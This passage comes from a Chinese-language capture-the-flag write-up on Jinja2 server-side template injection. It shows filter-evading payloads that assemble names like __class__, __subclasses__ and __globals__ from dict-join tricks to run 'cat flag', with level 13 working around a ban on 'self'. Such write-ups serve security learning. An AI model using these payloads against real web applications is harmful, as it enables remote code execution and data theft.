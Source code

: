```plain
{%set flag=(dict(cat=abc)|join,h,dict(flag=b)|join)|join%}
{%set re=dict(read=a)|join%}
{{()|attr(a)|attr(b)|attr(c)()|attr(d)(hundred)|attr(e)|attr(f)|attr(d)(g)(flag)|attr(re)()}}
```

[![在这里插入图片描述](assets/1698900310-f5b7e0949e921c8d68a60f9890cce8a0.png)](https://storage.tttang.com/media/attachment/2022/08/14/f1a7b7a4-587b-4428-84db-e072b4f43b83.png)

### [level 13](#toc_level-13)

[![在这里插入图片描述](assets/1698900310-6480ad06025b3e878c446a888c257805.png)](https://storage.tttang.com/media/attachment/2022/08/14/a33e3b2d-e475-4276-aaaa-565a323cd08a.png)  
过滤增添了一些关键词，其中`self`被 ban，本来用它设置的空格，但无妨，我们这里可以利用 pop 构造空格，简单修改一下之前的 payload

```plain
{% set po=dict(po=a,p=a)|join%}
{%set one=dict(aaaaaaaaaaaaaaaaa=a)|join|count%}
{%set two=dict(aaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}
{% set x=(()|select|string|list)|attr(po)(two)%}
{%set eighteen=dict(aaaaaaaaaaaaaaaaaa=a)|join|count%}
{%set hundred=dict(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}
{% set a=(x,x,dict(cla=a,ss=a)|join,x,x)|join()%}  
{%set b=(x,x,dict(base=a)|join,x,x)|join() %}  
{%set c=(x,x,dict(subcla=a,sses=a)|join,x,x)|join() %}   
{%set d=(x,x,dict(getitem=a)|join,x,x)|join()%}
{%set e=(x,x,dict(ini=a,t=a)|join,x,x)|join()%} 
{%set f=(x,x,dict(globals=b)|join,x,x)|join()%} 
```